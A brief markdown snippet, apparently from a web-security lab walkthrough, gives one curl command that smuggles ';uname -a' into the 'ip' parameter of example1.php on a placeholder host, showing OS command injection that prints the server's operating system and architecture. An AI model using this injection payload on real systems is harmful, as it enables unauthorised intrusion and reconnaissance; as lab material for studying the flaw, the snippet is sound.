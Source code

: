 # Curl

### This will print the OS and architecture of the web application host.
```
curl http://<IP>/<Subdirectory>/example1.php?ip=";uname%20-a" 2>&1 | awk '/<pre>/{flag=1;next}/pre>/{flag=0}flag'
```
